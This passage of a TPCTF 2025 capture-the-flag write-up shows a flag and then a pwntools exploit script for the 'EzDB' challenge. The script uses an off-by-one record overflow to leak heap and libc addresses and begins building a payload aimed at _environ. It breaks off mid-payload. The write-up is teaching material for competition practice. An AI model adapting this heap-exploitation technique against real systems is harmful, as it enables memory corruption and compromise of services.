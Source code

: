 ![img](https://or4nge-images.zeroc0077.cn/writeups/2025/tpctf2025/img_8.png)

flag: `TPCTF{LIHHHHAWJ2123089hj091j2s++_+___+SO_FUN!!!}`

## Pwn

### EzDB

GetFreeSpaceSize 多了个+1，导致写 Record 可以向下溢出一字节，更改 size 造成越界读写

```python
from pwn import *
context.log_level='debug'
context.os='linux'
context.arch='amd64'

def add_page(idx):
    p.sendlineafter(b'>>> ',b'1')
    p.sendlineafter(b'Index: ',str(idx).encode())

def delete_page(idx):
    p.sendlineafter(b'>>> ',b'2')
    p.sendlineafter(b'Index: ',str(idx).encode())

def add_record(idx,lens,data):
    p.sendlineafter(b'>>> ',b'3')
    p.sendlineafter(b'Index: ',str(idx).encode())
    p.sendlineafter(b'Varchar Length: ',str(lens).encode())
    p.sendafter(b'Varchar: ',data)

def show_record(idx,ids):
    p.sendlineafter(b'>>> ',b'4')
    p.sendlineafter(b'Index: ',str(idx).encode())
    p.sendlineafter(b'Slot ID: ',str(ids).encode())

def edit_record(idx,ids,lens,data):
    p.sendlineafter(b'>>> ',b'5')
    p.sendlineafter(b'Index: ',str(idx).encode())
    p.sendlineafter(b'Slot ID: ',str(ids).encode())
    p.sendlineafter(b'Length: ',str(lens).encode())
    p.sendafter(b'Varchar: ',data)

p=remote('61.147.171.105',58012)
#p=process('./db')
for i in range(10):
    add_page(i)
for i in range(2,10):
    delete_page(i)
delete_page(1)
add_record(0,0x401-4,b'\x04')
show_record(0,0)
p.recvuntil(b'Varchar: ')
p.recv(0x44d)
heapbase=u64(p.recv(8))-0x12310
p.recv(0x28)
libcbase=u64(p.recv(8))-0x21ace0
log.info('libcbase: '+hex(libcbase))
log.info('heapbase: '+hex(heapbase))
libc=ELF('./libc.so.6')
add_page(1)
add_page(2)
add_record(2,0x401-4,b'\x04')
env=libcbase+libc.symbols['_environ']
pl=b'\x04'+b'\x00'*0x404+p64(0x31)+p64(env-0x400)*2+p64(env)+p64(env-0x400)
```